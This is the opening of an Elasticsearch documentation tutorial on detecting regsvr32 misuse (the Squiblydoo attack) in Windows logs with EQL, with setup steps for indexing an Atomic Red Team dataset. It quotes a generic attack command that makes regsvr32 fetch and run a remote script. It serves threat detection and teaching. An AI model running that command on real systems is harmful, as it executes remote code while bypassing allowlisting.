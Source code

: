 ```yaml
---
mapped_pages:
  - https://www.elastic.co/guide/en/elasticsearch/reference/current/eql-ex-threat-detection.html
---
```


# Example: Detect threats with EQL [eql-ex-threat-detection]

This example tutorial shows how you can use EQL to detect security threats and other suspicious behavior. In the scenario, you’re tasked with detecting [regsvr32 misuse](https://attack.mitre.org/techniques/T1218/010/) in Windows event logs.

`regsvr32.exe` is a built-in command-line utility used to register `.dll` libraries in Windows. As a native tool, `regsvr32.exe` has a trusted status, letting it bypass most allowlist software and script blockers. Attackers with access to a user’s command line can use `regsvr32.exe` to run malicious scripts via `.dll` libraries, even on machines that otherwise disallow such scripts.

One common variant of regsvr32 misuse is a [Squiblydoo attack](https://attack.mitre.org/techniques/T1218/010/). In a Squiblydoo attack, a `regsvr32.exe` command uses the `scrobj.dll` library to register and run a remote script. These commands often look like this:

```sh
"regsvr32.exe  /s /u /i:<script-url> scrobj.dll"
```


## Setup [eql-ex-threat-detection-setup]

This tutorial uses a test dataset from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) that includes events imitating a Squiblydoo attack. The data has been mapped to [Elastic Common Schema (ECS)][Elastic Common Schema (ECS)](ecs://docs/reference/index.md)) fields.

To get started:

1. Create an [index template](docs-content://manage-data/data-store/templates.md) with [data stream enabled](docs-content://manage-data/data-store/data-streams/set-up-data-stream.md#create-index-template):

    ```console
    PUT /_index_template/my-data-stream-template
    {
      "index_patterns": [ "my-data-stream*" ],
      "data_stream": { },
      "priority": 500
    }
    ```

2. Download [`normalized-T1117-AtomicRed-regsvr32.json`](https://raw.githubusercontent.com/elastic/elasticsearch/master/docs/src/yamlRestTest/resources/normalized-T1117-AtomicRed-regsvr32.json).
3. Use the [bulk API](https://www.elastic.co/docs/api/doc/elasticsearch/operation/operation-bulk) to index the data to a matching stream:
